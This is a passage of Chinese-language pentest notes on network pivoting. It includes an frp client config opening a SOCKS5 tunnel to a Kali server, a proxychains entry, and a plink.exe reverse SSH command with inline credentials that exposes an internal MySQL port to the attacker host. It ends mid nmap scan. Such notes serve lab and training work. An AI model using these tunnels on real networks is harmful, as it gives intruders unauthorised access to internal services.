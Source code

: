 ```

2. 客户端配置，新建一个sock5.ini
```
[common]
server_addr = 192.168.119.239  #kali 服务端的IP
server_port = 7000  # kali服务端的端口

[sock5]
type = tcp
remote_port =9050
plugin = socks5

```

客户端运行
```
C:\frp>frpc.exe -c sock5.ini
frpc.exe -c sock5.ini
2022/05/01 12:35:42 [I] [service.go:349] [9c2ccbc784e6d6cd] login to server success, get run id [9c2ccbc784e6d6cd], server udp port [0]
2022/05/01 12:35:42 [I] [proxy_manager.go:144] [9c2ccbc784e6d6cd] proxy added: [sock5]
2022/05/01 12:35:43 [I] [control.go:181] [9c2ccbc784e6d6cd] [sock5] start proxy success
```


3. proxychains配置,[ProxyList]


```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 9050

```


## plink.exe
作用：windows版本的远程端口转发，从windwos上远程ssh回来，把外网无法访问的端口绑定到kali指定端口上

工具：plink.exe

1. windows 上执行
```
cmd.exe /c echo "y" | plink.exe -ssh -l max -pw ilak -R 192.168.119.181:1234:127.0.0.1:3306 192.168.119.181
```


2. kali扫描本机绑定的端口
```
┌──(root㉿207)-[~]
└─# sudo nmap -sS -sV 127.0.0.1 -p 1234
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-28 23:33 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000044s latency).
